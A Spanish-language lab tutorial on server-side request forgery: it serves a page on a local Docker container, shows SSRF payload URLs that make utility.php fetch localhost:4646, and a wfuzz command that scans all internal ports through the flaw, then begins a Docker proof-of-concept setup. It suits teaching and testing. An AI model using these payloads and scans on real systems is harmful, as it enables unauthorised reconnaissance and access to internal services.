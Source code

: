 * Levantar servidor web con python donde esta la pagina en **pre producción** y que no se puede ver públicamente si no que solamente la puede ver la propia maquina por el puerto 4646:

```bash
root@6a202eaefc7b:/tmp# ls
login.html
root@6a202eaefc7b:/tmp# python3 -m http.server 4646 --bind 127.0.0.1
Serving HTTP on 127.0.0.1 port 4646 (http://127.0.0.1:4646/) ...
```

#### Ejemplo de SSRF

Con el parámetro url de utility.php podemos poner dominios como por ejemplo google.com etc pero que pasa si apuntamos como url hacia la propia maquina y tiene un puerto interno abierto con un servidor web pues que podemos llegar a haver el contenido de este y se pude hacer de 2 formas.

* Con el nombre **localhost** que hace referencia a la propia **maquina**:\
  &#xNAN;**➜** `http://172.17.0.2/utility.php?url=http://localhost:4646/login.html`
* Con la IP **127.0.0.1** que hace referencia a la propia **maquina**:\
  &#xNAN;**➜** `http://172.17.0.2/utility.php?url=http://127.0.0.1:4646/login.html`

Y como podemos llegar a ver si la propia maquina tiene puertos internos abiertos????

Pues haciendo fuzzing con wfuzz por ejemplo para poder ver del 1 al 65535 que puertos internos tiene abiertos la propia maquina:

```bash
❯ wfuzz -c --hc=404 --hl=3 -t 200 -z range,1-65535 -u 'http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ'

Target: http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                           
=====================================================================

000000080:   200        19 L     68 W       1011 Ch     "80"                                                              
000004646:   200        18 L     39 W       403 Ch      "4646"                                                            
000008719:   200        3 L      8 W        61 Ch       "8719"  
```

### 2: Prueba de concepto

* Crear interfaz de red con docker:

```bash
❯ docker network create --driver=bridge network1 --subnet=10.10.0.0/24
```

* Crear contenedor que simula donde estará la pagina de producción y que tiene dos interfaces:

```bash
❯ docker run -dit --name PRO ubuntu
❯ docker network connect network1 PRO
```
